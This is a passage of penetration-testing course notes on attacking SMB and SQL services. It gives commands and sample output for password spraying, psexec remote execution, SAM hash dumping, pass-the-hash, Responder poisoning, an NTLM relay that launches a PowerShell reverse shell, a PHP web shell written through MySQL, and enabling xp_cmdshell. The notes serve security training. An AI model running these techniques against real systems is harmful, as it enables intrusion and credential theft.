From the above example, the permissions are set to READ and WRITE, which one can use to upload and download the files.


**Download a file:**

```bash
smbmap -H <TARGET_IP> --download "notes\note.txt"
```
```bash
# [+] Starting download: notes\note.txt (116 bytes)
# [+] File output to: /rth/<TARGET_IP>-notes_note.txt
```

**Upload a file:**

```bash
smbmap -H <TARGET_IP> --upload ./test.txt "notes\test.txt"
```
```bash
# [+] Starting upload: test.txt (20 bytes)
# [+] Upload complete.
```

</details>

<details>
<summary><h3>Remote Procedure Call (RPC)</h3></summary>

RPC can be enumerated using a **null session** with `rpcclient` or automated tools like `enum4linux`.

**Using `rpcclient`**

```bash
rpcclient -U'%' <TARGET_IP>
```
```bash
rpcclient $> enumdomusers

# user:[mhope] rid:[0x641]
# user:[svc-ata] rid:[0xa2b]
# user:[svc-bexec] rid:[0xa2c]
# user:[roleary] rid:[0xa36]
# user:[smorgan] rid:[0xa37]
```

---

**Using `rpcclient`**

```bash
./enum4linux-ng.py <TARGET_IP> -A -C
```
```bash
# ENUM4LINUX - next generation

# ...

#  ====================================
# |    Service Scan on <TARGET_IP>     |
#  ====================================
# ...
# [*] Checking SMB (timeout: 5s)
# [*] SMB is accessible on 445/tcp
# [*] Checking SMB over NetBIOS (timeout: 5s)
# [*] SMB over NetBIOS is accessible on 139/tcp

#  ===================================================                            
# |    NetBIOS Names and Workgroup for <TARGET_IP>    |
#  ===================================================                                                                                         
# [*] Got domain/workgroup name: WORKGROUP
# [*] Full NetBIOS names information:
# - WIN-752039204 <00> -          B <ACTIVE>  Workstation Service
# - WORKGROUP     <00> -          B <ACTIVE>  Workstation Service
# - WIN-752039204 <20> -          B <ACTIVE>  Workstation Service
# - MAC Address = 00-0C-29-D7-17-DB
# ...
#  ========================================
# |    SMB Dialect Check on <TARGET_IP>    |
#  ========================================

# ...
```

</details>

</details>

<details>
<summary><h2>Protocol Specifics Attacks</h2></summary>

If a null session is not enabled, we will need credentials to interact with the SMB protocol. Two common ways to obtain credentials are [brute forcing](https://en.wikipedia.org/wiki/Brute-force_attack) and [password spraying](https://owasp.org/www-community/attacks/Password_Spraying_Attack).

<details>
<summary><h3>Brute Forcing and Password Spray</h3></summary>

**Brute-Forcing**
* Attempts as many passwords as possible against a single account.
* Risk: May trigger account lockout if threshold is exceeded.
* Recommendation: Only use if the lockout threshold is known; otherwise, avoid.

**Password Spraying**
* Targets multiple usernames with a single common password.
* Safer approach to avoid account lockouts.
* Guidelines:
    * Use 2–3 password attempts per user if lockout threshold is unknown.
    * Wait 30–60 minutes between attempts.

**Using `CrackMapExec` for Password Spraying**

```bash
crackmapexec smb <TARGET_IP> -u <USER_LIST> -p '<PASSWORD>' --local-auth
```
```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [-] WIN7BOX\Administrator:<PASSWORD> STATUS_LOGON_FAILURE 
# SMB         <TARGET_IP> 445    WIN7BOX  [-] WIN7BOX\admin:<PASSWORD> STATUS_LOGON_FAILURE 
# SMB         <TARGET_IP> 445    WIN7BOX  [-] WIN7BOX\fsmith:<PASSWORD> STATUS_LOGON_FAILURE 
# SMB         <TARGET_IP> 445    WIN7BOX  [-] WIN7BOX\tcrash:<PASSWORD> STATUS_LOGON_FAILURE 

# ...

# SMB         <TARGET_IP> 445    WIN7BOX  [+] WIN7BOX\jurena:<PASSWORD> (Pwn3d!) 
```

> **Note:** By default `CrackMapExec` will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. it is very useful for spraying a single password against a large user list. Additionally, if we are targetting a non-domain joined computer, we will need to use the option `--local-auth`.

</details>

<details>
<summary><h3>Remote Code Execution (RCE)</h3></summary>

To use impacket-psexec, we need to provide the domain/username, the password, and the IP address of our target machine.

**Option 1 > Connect to a remote machine using `impacket-psexec`**

```bash
impacket-psexec <USER>:'<PASSWORD>'@<TARGET_IP>
```
```bash
# Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

# [*] Requesting shares on <TARGET_IP>.....
# [*] Found writable share ADMIN$
# [*] Uploading file EHtJXgng.exe
# [*] Opening SVCManager on <TARGET_IP>.....
# [*] Creating service nbAc on <TARGET_IP>.....
# [*] Starting service nbAc.....
# [!] Press help for extra shell commands
# Microsoft Windows [Version 10.0.19041.1415]
# (c) Microsoft Corporation. All rights reserved.


C:\Windows\system32>
```

> **NOTE:** The same options apply to `impacket-smbexec` and `impacket-atexec`.

---

**Option 2 > Run CMD or PowerShell commands using `crackmapexec`**

```bash
crackmapexec smb <TARGET_IP> -u <USER> -p '<PASSWORD>' -x 'whoami' --exec-method smbexec
```
```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:.) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] .\<USER>:<PASSWORD> (Pwn3d!)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] Executed command via smbexec
# SMB         <TARGET_IP> 445    WIN7BOX  nt authority\system
```

> **Note:** If the `--exec-method` is not defined, CrackMapExec will try to execute the `atexec` method, if it fails you can try to specify the `--exec-method` smbexec.

</details>

<details>
<summary><h3>Enumerating Logged-on Users</h3></summary>

Imagine we are in a network with multiple machines. Some of them share the same local administrator account. In this case, we could use CrackMapExec to enumerate logged-on users on all machines within the same network 10.10.110.0/24, which speeds up our enumeration process.

**Example Command**

```bash
crackmapexec smb 10.10.110.0/24 -u <USER> -p '<PASSWORD>' --local-auth --logged-on-users
```
```bash
# SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
# SMB         10.10.110.17 445    WIN7BOX  [+] Enumerated loggedon users
# SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\Administrator             logon_server: WIN7BOX
# SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\jurena                    logon_server: WIN7BOX
# SMB         10.10.110.21 445    WIN10BOX  [*] Windows 10.0 Build 19041 (name:WIN10BOX) (domain:WIN10BOX) (signing:False) (SMBv1:False)
# SMB         10.10.110.21 445    WIN10BOX  [+] WIN10BOX\Administrator:Password123! (Pwn3d!)
# SMB         10.10.110.21 445    WIN10BOX  [+] Enumerated loggedon users
# SMB         10.10.110.21 445    WIN10BOX  WIN10BOX\demouser                logon_server: WIN10BOX
```

</details>

<details>
<summary><h3>Extract Hashes from SAM Database</h3></summary>

The Security Account Manager (SAM) is a database file that stores users' passwords. It can be used to authenticate local and remote users. If we get administrative privileges on a machine, we can extract the SAM database hashes for different purposes:

* Authenticate as another user
* Password Cracking, if we manage to crack the password, we can try to reuse the password for other services or accounts
* Pass The Hash

**Example Command**

```bash
crackmapexec smb <TARGET_IP> -u <USER> -p '<PASSWORD>' --sam
```
```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] Dumping SAM hashes
# SMB         <TARGET_IP> 445    WIN7BOX  Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
# SMB         <TARGET_IP> 445    WIN7BOX  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# SMB         <TARGET_IP> 445    WIN7BOX  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# SMB         <TARGET_IP> 445    WIN7BOX  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5717e1619e16b9179ef2e7138c749d65:::
# SMB         <TARGET_IP> 445    WIN7BOX  jurena:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
# SMB         <TARGET_IP> 445    WIN7BOX  demouser:1002:aad3b435b51404eeaad3b435b51404ee:4c090b2a4a9a78b43510ceec3a60f90b:::
# SMB         <TARGET_IP> 445    WIN7BOX  [+] Added 6 SAM hashes to the database
```

</details>

<details>
<summary><h3>Pass-the-Hash (PtH)</h3></summary>

If we manage to get an **NTLM hash** of a user, and if we cannot crack it, we can still use the hash to authenticate over SMB with a technique called **Pass-the-Hash (PtH)**. PtH allows an attacker to authenticate to a remote server or service using the underlying NTLM hash of a user's password instead of the plaintext password. We can use a PtH attack with any `Impacket tool`, `SMBMap`, `CrackMapExec`, among other tools.

**Example Command**

```bash
crackmapexec smb <TARGET_IP> -u <USER> -H <NTLM_HASH>
```
```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] WIN7BOX\<USER>:<NTLM_HASH> (Pwn3d!)
```

</details>

<details>
<summary><h3>Forced Authentication Attacks</h3></summary>

SMB can be abused to capture users' **NetNTLM v1/v2 hashes**. By setting up a fake SMB server, we can trick clients into authenticating to it.

**Tool: Responder**
* Responder is a **LLMNR, NBT-NS, and MDNS poisoner**.
* Key capabilities include:
    * Setting up **fake services** (e.g., SMB) to capture credentials.
    * Listening for **LLMNR and NBT-NS traffic**.
    * Responding on behalf of servers that victims try to reach.
    * Capturing **NetNTLM v1/v2 hashes** automatically.

**Workflow**
1. Start Responder in a network segment.
2. Wait for LLMNR/NBT-NS requests from clients.
3. Responder responds with the fake SMB service.
4. Victim attempts authentication to the fake SMB server.
5. NetNTLM hashes are captured for offline cracking or relay attacks.




**Why This Matters**
* Allows attackers to harvest authentication credentials without user interaction.
* Can be combined with **hash cracking** or **SMB relay attacks**.

When a user or a system tries to perform a Name Resolution (NR), a series of procedures are conducted by a machine to retrieve a host's IP address by its hostname. On Windows machines, the procedure will roughly be as follows:



**Step 1: Create a fake SMB server using the Responder default configuration:**

```bash
sudo responder -I ens3
```
```bash
#   .----.-----.-----.-----.-----.-----.--|  |.-----.----.
#   |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
#   |__| |_____|_____|   __|_____|__|__|_____||_____|__|
#                    |__|

#            NBT-NS, LLMNR & MDNS Responder 3.1.3.0

#   To support this project:
#   Patreon -> https://www.patreon.com/PythonResponder
#   Paypal  -> https://paypal.me/PythonResponder

#   Author: Laurent Gaffie (laurent.gaffie@gmail.com)
#   To kill this script hit CTRL-C

# ...


# [+] Listening for events...

# ...
```
```bash
# [*] [NBT-NS] Poisoned answer sent to <TARGET_IP> for name WORKGROUP (service: Domain Master Browser)
# [*] [NBT-NS] Poisoned answer sent to <TARGET_IP> for name WORKGROUP (service: Browser Election)
# [*] [MDNS] Poisoned answer sent to <TARGET_IP>   for name mysharefoder.local
# [*] [LLMNR]  Poisoned answer sent to <TARGET_IP> for name mysharefoder
# [*] [MDNS] Poisoned answer sent to <TARGET_IP>   for name mysharefoder.local
# [SMB] NTLMv2-SSP Client   : <TARGET_IP>
# [SMB] NTLMv2-SSP Username : WIN7BOX\demouser
# [SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:<NTLM_SERVER_CHALLENGE>:<NTLMV2_RESPONSE>:<NTLMV2_BLOB>
```

These captured credentials can be cracked using hashcat or relayed to a remote host to complete the authentication and impersonate the user.

All saved Hashes are located in Responder's logs directory (**`/usr/share/responder/logs/`**). We can copy the hash to a file and attempt to crack it using the hashcat module 5600.

> **NOTE:** If you notice multiples hashes for one account this is because NTLMv2 utilizes both a client-side and server-side challenge that is randomized for each interaction. This makes it so the resulting hashes that are sent are salted with a randomized string of numbers. This is why the hashes don't match but still represent the same password.

**Step 2: Use hashcat to crak the password:**

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```
```bash
# hashcat (v6.1.1) starting...

# ...

# Dictionary cache hit:
# * Filename..: /usr/share/wordlists/rockyou.txt
# ...

# ADMINISTRATOR::WIN7BOX:<NTLM_SERVER_CHALLENGE>:<NTLMV2_RESPONSE>:<NTLMV2_BLOB>:P@ssword

# Session..........: hashcat
# Status...........: Cracked
# Hash.Name........: NetNTLMv2
# Hash.Target......: ADMINISTRATOR::WIN-487IMQOIA8E:997b18cc61099ba2:3cc...000000
# ...
```

The captured NTLMv2 hash was successfully cracked, revealing the password: **`P@ssword`**.
If the hash cannot be cracked, it may still be leveraged through a relay attack. This can be achieved using tools such as `impacket-ntlmrelayx` or Responder’s `MultiRelay.py`.

**Step 3: Disable SMB in Responder:**

```bash
sudo sed -i 's/^SMB = .*/SMB = Off/' /etc/responder/Responder.conf
```

**Verify change:**

```bash
cat /etc/responder/Responder.conf | grep 'SMB ='
```
```bash
# SMB = Off
```

**Step 4: Generate a PowerShell Reverse Shell**

Use [revshells.com](https://www.revshells.com/) to create a **PowerShell #3 (Base64)** reverse shell payload.
Set the local IP, port, and generate the encoded command.

**Step 5: Start a Netcat Listener**

```bash
nc -lvnp <PORT>
```
```bash
# listening on [any] 9001 ...
```

**Step 6: Execute the NTLM Relay Attack**

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET_IP> -c 'powershell -e <BASE64_STRING>'
```
```bash
# listening on [any] 9001 ...
# connect to [10.10.110.133] from (UNKNOWN) [<TARGET_IP>] 52471

PS C:\Windows\system32> whoami;hostname

# nt authority\system
# WIN11BOX
```


</details>

</details>

</details>

---

<details>
<summary><h1>🛢️ SQL Databases</h1></summary>

[MySQL](https://www.mysql.com/) and [Microsoft SQL Server (MSSQL)](https://www.microsoft.com/en-us/sql-server/sql-server-2019) are [relational database](https://en.wikipedia.org/wiki/Relational_database) management systems (RDBMS). They store data in tables, organized into columns and rows.

Most relational database systems, including MSSQL and MySQL, rely on [Structured Query Language (SQL)](https://en.wikipedia.org/wiki/SQL) for:
* Querying data
* Maintaining and managing the database

**Why Databases Are High-Value Targets**

Databases are prime targets for attackers because they often contain sensitive and business-critical information, such as:
* User credentials
* Personally Identifiable Information (PII)
* Business-related records
* Payment information

**Security Risks**

Database services are frequently configured with highly privileged users. If an attacker gains access to a database, they may be able to:
* Exploit elevated privileges
* Move laterally within the system
* Escalate privileges to gain wider control

<details>
<summary><h2>Nmap Scan</h2></summary>

**Default SQL Ports**

* MSSQL
    * TCP/1433 (default)
    * UDP/1434 (browser service)
    * TCP/2433 (when running in hidden mode)
* MySQL
    *TCP/3306 (default)

**Example Command**

```bash
sudo nmap <TARGET_IP> -Pn -sV -sC -p1433
```
```bash
# PORT     STATE SERVICE  VERSION
# 1433/tcp open  ms-sql-s Microsoft SQL Server 2017 14.00.1000.00; RTM
# | ms-sql-ntlm-info: 
# |   Target_Name: HTB
# |   NetBIOS_Domain_Name: HTB
# |   NetBIOS_Computer_Name: mssql-test
# |   DNS_Domain_Name: HTB.LOCAL
# |   DNS_Computer_Name: mssql-test.HTB.LOCAL
# |   DNS_Tree_Name: HTB.LOCAL
# |_  Product_Version: 10.0.17763
# | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
# | Not valid before: 2021-08-26T01:04:36
# |_Not valid after:  2051-08-26T01:04:36
# |_ssl-date: 2021-08-26T01:11:58+00:00; +2m05s from scanner time.

# Host script results:
# |_clock-skew: mean: 2m04s, deviation: 0s, median: 2m04s
# | ms-sql-info: 
# |   <TARGET_IP>:1433: 
# |     Version: 
# |       name: Microsoft SQL Server 2017 RTM
# |       number: 14.00.1000.00
# |       Product: Microsoft SQL Server 2017
# |       Service pack level: RTM
# |       Post-SP patches applied: false
# |_    TCP port: 1433
```

| Flag            | Purpose                                         |
|-----------------|-------------------------------------------------|
| `-Pn`           | Treat host as online (skip ICMP ping discovery) |
| `-sV`           | Detect service version                          |
| `-sC`           | Run default Nmap scripts                        |
| `-p1433`        | Scan only port 1433 (SQL Server default)        |
| `<TARGET_IP>`   | Target IP address                               |

**Why This Matters**

* **Attackers look for open SQL ports** (1433/3306) as easy entry points.
* **Weak or misconfigured authentication** can lead to:
    * Full database access without credentials.
    * Leakage of sensitive data (users, passwords, financial records).
    * Remote code execution via SQL functions or stored procedures.
* **Exposed metadata** (seen in Nmap output) reveals:
    * SQL Server version (helps attackers find exploits).
    * Domain, computer, and DNS names (useful for lateral movement).
* **Default or no-password accounts** are commonly exploited in automated attacks.

</details>

<details>
<summary><h2>Authentication Mechanisms</h2></summary>

**MSSQL**

MSSQL supports two authentication modes:

| Authentication Type             | Description                                                                                                                                                                                  |
| ------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Windows Authentication Mode** | Default mode (also called *integrated security*). SQL Server trusts Windows/Active Directory accounts. Users already authenticated by Windows do not need to provide additional credentials. |
| **Mixed Mode**                  | Supports both Windows/AD authentication and SQL Server–specific logins (username + password stored in SQL Server).                                                                           |


**MySQL**

* Supports authentication using:
    * Username + Password
    * Windows Authentication (requires plugin)

* Administrators may choose an authentication mode based on compatibility, security, usability, etc.
* Misconfigurations in authentication settings can expose services to unauthorized access.

<details>
<summary><h3>Misconfigurations</h3></summary>

A misconfiguration can allow access without credentials under these conditions:
* Anonymous access enabled
* User without a password
* Unrestricted access

</details>

<details>
<summary><h3>Privileges</h3></summary>

Depending on the user's privileges, we may be able to perform different actions within a SQL Server, such as:

* Read or change the contents of a database
* Read or change the server configuration
* Execute commands
* Read local files
* Communicate with other databases
* Capture the local system hash
* Impersonate existing users
* Gain access to other networks

</details>

</details>

<details>
<summary><h2>Protocol Specific Attacks</h2></summary>

Once access to a SQL database has been obtained, the next step is to enumerate its contents. Start by identifying the databases that exist on the server, then inspect the tables within each database, and finally review the data stored in those tables.

In practice, large environments may contain hundreds of tables, so it’s not always practical—or necessary—to dump everything.
Instead, focus on the tables that are most likely to contain actionable information, such as:

* Usernames and passwords
* API keys or authentication tokens
* Configuration data
* Application-specific secrets

This targeted approach will not only save time, but also help you find data that can be leveraged for further compromise or privilege escalation.

<details>
<summary><h3>MySQL</h3></summary>

**Default System Databases**

| Database           | Description                                                                                       |
|--------------------|---------------------------------------------------------------------------------------------------|
| `mysql`            | Core system database; contains tables required by the MySQL server                                |
| `information_schema` | Stores metadata such as databases, tables, and columns                                           |
| `performance_schema` | Used for monitoring MySQL server execution at a low level                                        |
| `sys`              | Helper objects to make Performance Schema data easier to understand                               |

<details>
<summary><h4>Step 1: Connecting to the SQL Server</h4></summary>

```bash
mysql -u <USER> -p<PASSWORD> -h <TARGET_IP>
```

</details>

<details>
<summary><h4>Step 2: Explore the Databases</h4></summary>

**Show Databases**

```sql
SHOW DATABASES;
```
```bash
# +--------------------+
# | Database           |
# +--------------------+
# | information_schema |
# | users              |
# +--------------------+
# 2 rows in set (0.00 sec)
```

**Use a Database**

```sql
USE users;
```
```bash
# Database changed
```

**Show Tables**

```sql
SHOW TABLES;
```
```bash
# +----------------------------+
# | users                      |
# +----------------------------+
# | actions                    |
# | permissions                |
# | permissions_roles          |
# | permissions_users          |
# | roles                      |
# | roles_users                |
# | settings                   |
# | users                      |
# +----------------------------+
# 8 rows in set (0.00 sec)
```

**View Table Contents**

```sql
SELECT * FROM users;
```
```bash
# +----+---------------+------------+---------------------+
# | id | username      | password   | date_of_joining     |
# +----+---------------+------------+---------------------+
# |  1 | admin         | p@ssw0rd   | 2025-07-02 00:00:00 |
# |  2 | administrator | adm1n_p@ss | 2025-07-02 11:30:50 |
# |  3 | john          | john123!   | 2025-07-02 11:47:16 |
# |  4 | tom           | tom123!    | 2025-07-02 12:23:16 |
# +----+---------------+------------+---------------------+
# 4 rows in set (0.00 sec)
```

</details>

<details>
<summary><h4>Step 3: Execute Commands</h4></summary>

Command execution is one of the most valuable capabilities when attacking common services, as it enables direct control over the operating system. With sufficient privileges, an attacker can leverage the SQL database to run system commands or create the necessary mechanisms to do so.

Unlike SQL Server’s `xp_cmdshell`, **MySQL** does not provide a built-in stored procedure for executing system commands. However, command execution is still possible if we can write files to a location on the file system that is executed by another service.

For example, if **MySQL** is running alongside a PHP-based web server (or another language such as ASP.NET), and we have the necessary privileges, we can create a web shell using **SELECT INTO OUTFILE**. By writing a script directly into the web server’s directory, we are then able to browse to the file and execute arbitrary commands through the web interface.

**Write Local File**

```sql
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/shell.php';
```

</details>

</details>

<details>
<summary><h3>MSSQL</h3></summary>

**Default System Databases**

| Database | Description                                                                                          |
|---------|------------------------------------------------------------------------------------------------------|
| `master` | Stores configuration and instance-level information                                                 |
| `msdb`  | Used by SQL Server Agent (job scheduling, alerts, etc.)                                              |
| `model` | Template database that is copied when a new database is created                                     |
| `resource` | Read-only database that stores system objects visible in all databases (under the `sys` schema) |
| `tempdb` | Stores all temporary tables, variables and other transient objects used in SQL queries              |

<details>
<summary><h4>Step 1: Connecting to the SQL Server</h4></summary>

**OPTION 1: `sqsh`**

```bash
sqsh -S <TARGET_IP> -U <USER> -P '<PASSWORD>' -h
```

When connecting to a SQL Server using **Windows authentication**, the client must include either the **domain name** or the **hostname** in the username.
If no hostname or domain is provided, the client defaults to **SQL authentication** and attempts to log in using a SQL Server–defined user.

* **Windows authentication** (domain or local account):
    * Domain account → `DOMAIN\username`
    * Local account → `HOSTNAME\username` or `.\username`
* **SQL authentication**:
    * Username only → `username`

```bash
sqsh -S <TARGET_IP> -U .\\<USER> -P '<PASSWORD>' -h
```

**OPTION 2: `mssqlclient.py`**

```bash
mssqlclient.py -p <PORT> <USER>@<TARGET_IP>
```

</details>

<details>
<summary><h4>Step 2: Explore the Databases</h4></summary>

**Show Databases**

```sql
SELECT name FROM master.dbo.sysdatabases;
GO
```
```bash
# master
# tempdb
# model
# msdb
# users
```

**Use a Database**

```sql
USE users;
GO
```
```bash
# Changed database context to 'users'.
```

**Show Tables**

```sql
SELECT table_name FROM users.INFORMATION_SCHEMA.TABLES;
GO
```
```bash
# actions
# permissions
# permissions_roles
# permissions_users
# roles
# roles_users
# settings
# users
```

**View Table Contents**

```sql
SELECT * FROM users;
GO
```
```bash
# id   username       password       date_of_joining
# ----------------------------------------------------------
# 1    admin          p@ssw0rd       2025-07-02 00:00:00
# 2    administrator  adm1n_p@ss     2025-07-02 11:30:50
# 3    john           john123!       2025-07-02 11:47:16
# 4    tom            tom123!        2025-07-02 12:23:16
```

</details>

<details>
<summary><h4>Step 3: Execute Commands</h4></summary>

Command execution is one of the most valuable capabilities when attacking common services, as it enables direct control over the operating system. With sufficient privileges, an attacker can leverage the SQL database to run system commands or create the necessary mechanisms to do so.

**Execute commands using SQL syntax on MSSQL**

```sql
xp_cmdshell 'whoami'
GO
```
```bash
# output
# -----------------------------
# no service\mssql$sqlexpress
# NULL
# (2 rows affected)
```

If xp_cmdshell is not enabled, we can enable it.

**Allow advanced options to be changed:**

```sql
EXECUTE sp_configure 'show advanced options', 1
GO
```

**Update the currently configured value for advanced options:**

```sql
RECONFIGURE
GO
```

**Enable the feature:**

```sql
EXECUTE sp_configure 'xp_cmdshell', 1
GO  
```

**Update the currently configured value for this feature:**

```sql
RECONFIGURE
GO
```

</details>

</details>

</details>

</details>

---

<details>
<summary><h1>🖧 RDP</h1></summary>


</details>

---

<details>
<summary><h1>🌐 DNS</h1></summary>


</details>

---

<details>
<summary><h1>📨 SMTP</h1></summary>


</details>

---

<details>
<summary><h1>🛠️ Skills Assessment</h1></summary>

<details>
<summary><h2>Attacking Common Services (EASY)</h2></summary>

</details>

<details>
<summary><h2>Attacking Common Services (MEDIUM)</h2></summary>

</details>

<details>
<summary><h2>Attacking Common Services (HARD)</h2></summary>

</details>

</details>

---

📘 **Next step:** Continue with [PIVOTING-TUNNELING](./09-pivoting-tunneling.md)